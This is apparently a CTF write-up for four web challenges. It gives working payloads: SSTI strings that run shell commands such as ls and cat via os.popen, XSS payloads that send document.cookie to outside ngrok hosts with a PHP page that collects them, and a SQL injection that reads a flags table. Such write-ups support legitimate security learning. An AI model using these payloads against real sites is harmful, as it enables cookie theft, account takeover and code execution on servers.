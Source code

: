 #DiceGang hope CTF writeup

Mostly solved the web challenges with Task_Hashed

---------------------------------------------------------------------------------------------------

#Reverser

the website is a text reverser and from the source code we can tell its an SSTI so we just have to put a regular SSTI payload but just reversed

regular payload: 
```
{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}

{{config.__class__.__init__.__globals__['os'].popen('cat flag-ccba9605-afeb-49a6-8aac-d56bac20705b.txt').read()}}
```
supplied reversed payload:

```
}}  )(daer.)'sl'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc {{
    
}})(daer.)'txt.b50702cab65d-caa8-6a94-befa-5069abcc-galf tac'(nepop.]'so'[__slabolg__.__tini__.__ssalc__.gifnoc{{
```


---------------------------------------------------------------------------------------------------

#Pastebin 

the important part of this challenge is :

```python 
    if (paste.search(/<.*>/) !== -1) {
        return res.redirect('/flash?message=Illegal characters in paste!');
        }
```

My solution : 

```<img src=x onerror=javascript:document.location='http://37b0-41-225-85-6.ngrok.io/ok.php?c='+document.cookie;```

with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 
---------------------------------------------------------------------------------------------------

#oeps

this challenge requires to put a palindrome string to add them to the pending table

notice there's two ways we can control user input. either search for approved sentences or pass our own but it has to be a palindrome

since the search is blocking special chars we can try with the pending sentences input

so we can try some sql injections

this is what the query looked like 

```python 
connection.execute('''
        insert into pending (user, sentence) values ('%s', '%s');
    ''' % (
        token,
        submission
))
```


payload: ```')--```
payload supplied : ```')---)'```

and we can see we get a blank input meaning our payload worked! and we know the flag is in the flags table so we can use the ```'%'||(query)||'%'``` to get an element from another table

payload : ```%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'% ``` 

the final query looks like this 

```insert into pending (user, sentence) values ('1234', '%'||(SELECT flag FROM flags)||'%');---;)'%'||)sgalf MORF galf TCELES(||'%');```

```flag : hope{ecid_gnivlovni_semordnilap_fo_kniht_ton_dluoc}```

------------------------------------------------------------------------------------------------------------------------------------

#mk

payload :

```<script src="https://mk.mc.ax/MathJax/MathJax.js">document.location='http://02f6-41-225-148-43.ngrok.io/ok.php?c='+document.cookie;</script>```


with ok.php :
```php
<?php 
    $cookies = $_GET["c"];
?>
``` 